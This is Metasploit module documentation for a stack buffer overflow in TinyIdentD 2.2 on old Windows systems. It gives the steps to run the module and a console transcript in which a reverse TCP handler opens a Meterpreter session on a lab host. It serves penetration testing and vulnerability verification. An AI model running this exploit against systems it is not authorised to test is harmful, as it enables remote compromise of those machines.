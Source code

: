 ## Vulnerable Application

  This module exploits a stack based buffer overflow in TinyIdentD
  version 2.2.

  If we send a long string to the ident service we can overwrite the
  return address and execute arbitrary code. Credit to Maarten Boone.

  Download:

  * https://download.cnet.com/Tiny-IdentD/3000-2150_4-10147419.html


## Verification Steps

  1. Start `msfconsole`
  2. `use exploit/windows/misc/tiny_identd_overflow`
  3. `set RHOSTS <rhost>`
  4. `set TARGET <target>`
  5. `run`
  6. You should get a new session


## Options


## Scenarios

### TinyIdentD 2.2 on Windows XP SP0 - English (x86)

  ```
  msf5 > use exploit/windows/misc/tiny_identd_overflow
  msf5 exploit(windows/misc/tiny_identd_overflow) > show targets

  Exploit targets:

     Id  Name
     --  ----
     0   Automatic
     1   Windows 2000 Server SP4 - English
     2   Windows 2000 Pro All - English
     3   Windows 2000 Pro All - Italian
     4   Windows 2000 Pro All - French
     5   Windows XP SP0/1 - English
     6   Windows XP SP2 - English
     7   Windows XP SP2 - Italian


  msf5 exploit(windows/misc/tiny_identd_overflow) > set target 5
  target => 5
  msf5 exploit(windows/misc/tiny_identd_overflow) > set rhosts 172.16.191.140
  rhosts => 172.16.191.140
  msf5 exploit(windows/misc/tiny_identd_overflow) > run

  [*] Started reverse TCP handler on 172.16.191.165:4444 
  [*] 172.16.191.140:113 - Trying Windows XP SP0/1 - English using address at 0x71aa1a97 ...
  [*] Sending stage (176195 bytes) to 172.16.191.140
  [*] Meterpreter session 1 opened (172.16.191.165:4444 -> 172.16.191.140:1040) at 2020-05-23 00:00:56 -0400

  meterpreter > sysinfo 
  Computer        : WINXP
  OS              : Windows XP (5.1 Build 2600).
  Architecture    : x86
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 2
  Meterpreter     : x86/windows
  meterpreter > 
  ```
